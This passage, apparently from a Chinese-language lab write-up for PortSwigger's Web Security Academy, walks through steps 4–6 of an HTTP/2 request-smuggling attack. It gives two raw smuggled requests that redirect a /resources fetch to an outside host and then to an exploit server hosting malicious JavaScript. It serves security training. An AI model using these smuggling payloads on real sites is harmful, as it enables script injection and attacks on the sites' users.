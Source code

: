 Step 4：随后尝试构造下面的请求来隐藏对任意的host的/resources请求

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0
GET /resources HTTP/1.1
Host: www.baidu.com
Content-Length: 6
x=1
```

![img](assets/1706773318-117010e96092d49308640156bee03f4f.png)

Step 5：随后我们使用靶场提供的恶意服务器主机托管一个恶意JS文件

![img](assets/1706773318-facf71487510c6bdd7374a2e508b29e9.png)

Step 6：随后修改之前的请求数据包去请求恶意服务器上的resouces文件

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0
GET /resources HTTP/1.1
Host: exploit-0ac2009903692136853e1b6701c3001b.exploit-server.net
Content-Length: 6
x=1
```
